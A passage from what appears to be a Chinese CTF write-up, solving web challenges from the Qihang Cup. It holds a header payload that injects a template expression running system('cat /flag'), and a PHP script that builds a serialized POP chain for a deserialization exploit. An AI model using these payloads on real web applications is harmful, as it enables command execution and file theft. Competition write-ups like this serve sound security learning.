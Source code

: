 查看源码即可

​![](img/启航杯CTF/clip_image018-20250126093903-n0xh6rx.jpg)​

## web-ip | FINISHED

使用hack-bar在请求头中添加

```
X-Forwarded-For:127.0.0.1{{system('cat /flag')}}
```

即可

## web-pop | FINISHED

```php
<?php
class Start{
  public $name;
  protected $func;
  public function __construct($aa)
 {
    $this->func = $aa;
 }
}
class Sec{
  private $obj;
  private $var;
  public function __construct($aa, $bb)
 {
    $this->obj = $aa;
    $this->var = $bb;
 }
}
class Easy{
  public $cla;
}
class eeee{
  public $obj;
  public function __construct()
 {
    $this->obj = new Start(new Sec(0,0));
 }
}
$a = new Start(0);
$a->name = new Sec(new Easy(), new eeee());
echo urlencode(serialize($a));
| 
```

php反序列化，构造pop链传参即可

​![](img/启航杯CTF/clip_image020-20250126093903-az7koce.jpg)​
